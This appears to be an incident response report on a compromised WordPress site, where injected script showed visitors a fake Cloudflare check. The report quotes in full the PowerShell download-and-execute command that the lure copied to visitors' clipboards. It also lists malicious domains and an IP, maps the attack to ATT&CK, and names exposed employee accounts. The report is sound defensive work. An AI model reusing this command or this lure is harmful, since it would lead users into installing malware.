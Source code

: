 ## Incident Response Report – Breakers FWB Website Compromise
*7 Sept 2025, K. Tonkin*

## Executive Summary
On September 5, 2025, the Breakers FWB website ```(https://www.breakersfwb.com)``` was discovered to be compromised. Malicious JavaScript was injected into the site, in which visitors had a fake Cloudflare “verification” page overlaid on top of the actual website, which was hosted on ```ncloud.icu``` and dynamically loaded via a `<iframe>`. The fraudulent verification page attempted to trick users into executing a PowerShell command that would download further payloads from ```155.94.155.25```. The site directed the user to verify by pressing Win+R and Ctrl+V to paste ```powershell -w h -nop -c iex(iwr -Uri 155[.]94[.]155[.]25 -UseBasicParsing)``` copied to their clipboard.

Investigation showed evidence of:
- Injected code** calling external malicious domains (```getfix.win```, ```ncloud.icu```).  
- Obfuscated JavaScript** redirectors inserted server-side.  
- Exposed WordPress user accounts, including the default ```admin``` and employee accounts ```ethanwhited``` & ```barbara``` (Barbara Martens).  
- Spam blog posts unrelated to The Breakers’ business, created Sept 3-4, 2025.  

This indicates a WordPress site compromise, most likely through vulnerable plugins and/or weak credentials.

---

## Indicators of Compromise (IOCs)

| Type      | Value / Indicator                                                                 | Notes |
|-----------|------------------------------------------------------------------------------------|-------|
| Domain    | `getfix.win`                                                                      | Primary malicious script delivery |
| Domain    | `ncloud.icu`                                                                      | Iframe redirector domain |
| Domain    | `2no.co`                                                                          | Used in injected iframe chain |
| IP        | `155.94.155.25`                                                                   | PowerShell download host |
| Path      | `/wp-json/wp/v2/users`                                                            | Publicly exposes WordPress user list |
| Script    | Malicious `<script>` block in `<body>` calling `getfix.win/jsrepo?...`             | Injected server-side |
| Spam URLs | `/island-blog/casino-site-payment-methods-in-canada...` (and similar gambling posts)| Created Sept 3–5, 2025 |

---

## MITRE ATT&CK Mapping

| ATT&CK Tactic      | Technique ID | Technique Name                                | Observed Example |
|--------------------|--------------|-----------------------------------------------|------------------|
| Initial Access     | T1190        | Exploit Public-Facing Application             | Likely WordPress plugin exploit (Photo Gallery, Gravity Forms, Streamline Core) |
| Execution          | T1059.001    | Command and Scripting Interpreter: PowerShell | Fake Cloudflare page copied malicious command to clipboard |
| Persistence        | T1078        | Valid Accounts                                | WordPress users ```admin```, ```ethanwhited```, ```barbara```, possibly others |
| Defense Evasion    | T1027        | Obfuscated Files or Information               | Obfuscated injected JavaScript (```_0x32f8cc```, ```cxhrz``` loops) |
| Credential Access  | T1110        | Brute Force                                   | Risk to exposed ```admin``` account |
| Impact             | T1499        | Endpoint Denial of Service                    | Browser crashpad / spawned processes observed in sandbox |

---